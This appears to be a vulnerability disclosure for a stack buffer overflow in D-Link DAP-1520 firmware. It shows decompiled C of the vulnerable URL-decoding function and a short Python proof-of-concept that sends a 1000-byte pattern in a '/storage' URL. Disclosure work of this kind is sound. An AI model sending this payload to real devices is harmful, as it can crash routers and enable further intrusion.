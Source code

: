 ## Overview

| Firmware Name | Firmware Version | Download Link                                                |
| ------------- | ---------------- | ------------------------------------------------------------ |
| DAP-1520      | 1.10B04_BETA02   | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Vulnerability Trigger Location

![667a8a6fdb7e80f9c03195653ce9da2](./assets/667a8a6fdb7e80f9c03195653ce9da2-1743571913103-3.png)

![935cacf9337495441bcadf8cfc798cf](./assets/935cacf9337495441bcadf8cfc798cf-1743571978649-5.png)

## Vulnerability  Analysis

![4f8fe700224ef18f968a54c7250331d](./assets/4f8fe700224ef18f968a54c7250331d.png)

first,the url must include "/storage"

then call the function named  replace_special_char .

```c
int __fastcall replace_special_char(int a1)
{
  int v2; // $s4
  int result; // $v0
  int v4; // $fp
  int v5; // $s6
  int v6; // $s3
  int v7; // $s5
  int v8; // $s0
  char v9; // $a0
  char **v10; // $s2
  int v11; // $a3
  int v12; // $s1
  char v14[600]; // [sp+18h] [-260h] BYREF   #####the pointer points to v14 which is of size 600.
  __int16 v15; // [sp+270h] [-8h] BYREF
  char v16; // [sp+272h] [-6h]

  v2 = strlen();
  result = memset(v14, 0, sizeof(v14));
  v4 = 0;
  v5 = 0;
  v6 = 0;
  v7 = 0;
  if ( v2 > 0 )
  {
    do
    {
      v8 = a1 + v6;
      v9 = *(_BYTE *)(a1 + v6);
      v15 = 0;
      v16 = 0;
      ++v5;
      if ( v9 == 37 )
      {
        v10 = encoding_code;
        sprintf(&v15, "%c%c", *(char *)(v8 + 1), *(char *)(v8 + 2));
        v12 = 0;
        while ( strncmp(v8 + 1, *v10++, 2, v11) )
        {
          if ( ++v12 >= 25 )
            goto LABEL_8;
        }
        v6 += 2;
        v4 = 1;
        v14[v7] = encoding_char[v12];
      }
      else
      {
        v14[v7] = v9;
      }
LABEL_8:
      result = ++v6 < v2;
      ++v7;
    }
    while ( v6 < v2 );
    if ( v4 )
    {
      memset(a1, 0, v2);
      return memcpy(a1, v14, v5);
    }
  }
  return result;
}
```

in the do while loop ,if we input more than 600 byte string ,it will be overflow.

![d938a03275209d200a2a088a368b67a](./assets/d938a03275209d200a2a088a368b67a.png)

![6f0e35c47091cbc8f9ad331763618c5](./assets/6f0e35c47091cbc8f9ad331763618c5-1743572488055-10.png)

## poc

python3 script

```py
import requests

from pwn import *
url = f"http://127.0.0.1:80/storagein.pd-XXXXXX?sesslogin.ph{cyclic(1000).decode('utf-8')}"
headers = {
    "Accept-Eing": "",
    "Host": "127.0.0.1"
}

try:
    response = requests.get(url, headers=headers)
    print(f"Status Code: {response.status_code}")
    print(f"Response Content: {response.text}")
except requests.exceptions.RequestException as e:
    print(f"An error occurred: {e}")
```

## Vulnerability Verification Screenshot

![667a8a6fdb7e80f9c03195653ce9da2](./assets/667a8a6fdb7e80f9c03195653ce9da2-1743572617565-12.png)

